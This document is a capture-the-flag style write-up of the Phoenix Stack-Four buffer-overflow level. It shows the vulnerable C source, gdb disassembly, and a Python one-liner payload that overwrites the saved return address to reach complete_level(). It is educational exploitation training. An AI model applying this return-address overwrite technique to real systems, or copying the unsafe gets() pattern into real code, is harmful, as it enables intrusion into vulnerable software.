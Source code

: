 ```yaml
---
title: Phoenix Stack-Four
author: Marius Kimmina
date: 2019-11-03 14:10:00 +0800
categories: [Binary Exploitation]
tags: [Buffer Overflow]
published: true
---
```


### 0x0. Introduction
For a full introduction to this series and setup description please look at the first post (Phoenix Stack-Zero and One).
In the last level of this series we had to overwrite a function pointer to execute a Function that would otherwise never get 
executed. This time the instruction pointer has been saved and we can use that to overwrite the return pointer.

### 0x1 taking a look at the source code

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```


Our goal here is to change the return pointer so that start_level() "returns" to complete_level() instead of main().
Normally a Function call works like this: The address, of the next instruction after the function call, gets saved to memory.
Then the instruction pointer gets overwritten with the address of the function, once it's finished executing the instruction
pointer gets overwritten again with the previously saved return address.

We can see this behavior in this program easily, since it prints out the return address for us.
First lets have a look at main() in assembler

```
Dump of assembler code for function main:
   0x000000000040066a <+0>:	push   rbp
   0x000000000040066b <+1>:	mov    rbp,rsp
   0x000000000040066e <+4>:	sub    rsp,0x10
   0x0000000000400672 <+8>:	mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:	mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:	mov    edi,0x400750
   0x000000000040067e <+20>:	call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:	mov    eax,0x0
   0x0000000000400688 <+30>:	call   0x400635 <start_level>
   0x000000000040068d <+35>:	mov    eax,0x0
   0x0000000000400692 <+40>:	leave  
   0x0000000000400693 <+41>:	ret    
End of assembler dump.
```

You can see that at address 0x0000000000400688 we are calling start_level(). So our return address should be 0x000000000040068d.
Time to run the program and find out:

```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education
A
and will be returning to 0x40068d
```

So yes we are indeed correct.


### 0x2 Exploiting the program

First I wanted to know where our return pointer is being saved, to do that i started with a look at start_level() in assembler code

```
(gdb) disassemble start_level
Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:	push   rbp
   0x0000000000400636 <+1>:	mov    rbp,rsp
   0x0000000000400639 <+4>:	sub    rsp,0x50
   0x000000000040063d <+8>:	lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:	mov    rdi,rax
   0x0000000000400644 <+15>:	call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:	mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040064d <+24>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400651 <+28>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400655 <+32>:	mov    rsi,rax
   0x0000000000400658 <+35>:	mov    edi,0x400733
   0x000000000040065d <+40>:	mov    eax,0x0
   0x0000000000400662 <+45>:	call   0x400460 <printf@plt>
   0x0000000000400667 <+50>:	nop
   0x0000000000400668 <+51>:	leave  
   0x0000000000400669 <+52>:	ret    
End of assembler dump.
```

We can easily identify the calls for gets() and printf() so the answer had to be somewhere in between
So i decided so set a breakpoint at printf() hope to find our return address.
```
(gdb) break *0x0000000000400662
```

Upon hitting the breakpoint and looking at the register values we see:

```
$rax   : 0x000000000040068d  →  <main+35> mov eax, 0x0
```

so rax is holding the return pointer.  
Now that we know that lets get started on the bufferoverflow, as always I'm using the alphabet for a pretty easily recognizable pattern.
```
Welcome to phoenix/stack-four, brought to you by https://exploit.education
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZ
```

And once we hit our breakpoint again we will see that rax is now:
```
$rax   : 0x5858585857575757 ("WWWWXXXX"?)
```

So we have to replace the Ws and Xs in our payload with the address of complete_level(), which we can find out easily in gdb for example 
with "disassemble complete_level". Look at the first address in the disassembled code and that's were we want to return to.
In our case its: 40061d

A pretty easy way to input this address is to decode it with python:

```
user@phoenix-amd64:/opt/phoenix/amd64$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVV' + ('1d0640').decode('hex')" | ./stack-four 
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

Yet again keep in mind that this little endian thus "40061d" becomes "1d0640", byte by byte from right to left.




/
